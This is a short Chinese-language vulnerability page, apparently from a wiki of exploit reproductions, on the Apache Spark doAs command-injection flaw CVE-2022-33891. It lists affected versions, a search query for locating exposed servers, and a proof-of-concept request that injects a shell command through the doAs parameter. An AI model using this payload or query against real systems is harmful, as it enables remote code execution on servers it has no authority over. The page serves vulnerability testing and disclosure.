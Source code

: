 # Apache Spark doAs 远程命令执行漏洞 CVE-2022-33891

## 漏洞描述

Apache Spark 支持启动 ACL 来为 Web UI 访问提供身份验证，当 ACL 启动时可以通过构造特殊请求用户名导致 RCE 

## 漏洞影响

<a-checkbox checked>Spark Core - Apache <=3.0.3</a-checkbox></br>

<a-checkbox checked>3.1.1 <= Spark Core - Apache <=3.1.2</a-checkbox></br>

<a-checkbox checked>3.2.0 <= Spark Core - Apache <=3.2.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="APACHE-Spark"</a-checkbox></br>

## 漏洞复现

主页面

![img](/assets/PeiQi-Wiki/img/1662174736577-4e5a3852-3359-43a2-8470-228e306f34e5.png)

验证POC

```html
/jobs/?doAs=`touch /tmp/test.txt`
```

![img](/assets/PeiQi-Wiki/img/1662174983427-249a9ba2-f516-45dc-b08e-206c2830ff81.png)